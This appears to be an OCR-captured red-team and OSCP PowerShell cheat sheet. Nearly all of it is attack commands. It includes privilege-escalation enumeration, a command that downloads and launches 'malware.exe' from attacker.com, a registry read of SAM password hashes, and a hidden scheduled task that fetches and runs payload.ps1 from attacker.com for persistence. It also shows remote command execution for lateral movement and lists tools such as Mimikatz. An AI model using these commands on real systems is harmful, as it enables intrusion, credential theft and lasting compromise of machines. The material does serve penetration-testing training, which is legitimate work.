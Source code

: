 ### **Privilege Escalation Enumeration**

```
whoami /groups              # Show group memberships
whoami /priv                # Show user privileges
Get-Process | Where-Object {$_.Path -like "*System32*"} # Check processes running as SYSTEM
Get-Service | Where-Object {$_.StartName -eq "LocalSystem"} # Show services running as SYSTEM
```


---

## **Advanced PowerShell for Red Teaming & OSCP**

### **File Download & Execution**

```
Invoke-WebRequest -Uri "http://attacker.com/malware.exe" -OutFile "C:\Users\Public\malware.exe"
Start-Process "C:\Users\Public\malware.exe"
```


### **Credential Dumping**

```
(Get-ItemProperty -Path "HKLM:\SAM\SAM\Domains\Account\Users\000001F4").V # Dump SAM hashes (requires SYSTEM)
```

### **Persistence Techniques**

```
New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoP -W Hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')" | Register-ScheduledTask -TaskName "Persistence"
```
### **Lateral Movement**

powershell

CopyEdit

```
Invoke-Command -ComputerName "VictimPC" -ScriptBlock {whoami} -Credential (Get-Credential) # Remote Execution
```

---

## **PowerShell Exploitation Tools**

- **PowerView** – AD enumeration
- **PowerUp** – Privilege escalation
- **Invoke-Mimikatz** – Credential dumping
- **Nishang** – Post-exploitation framework
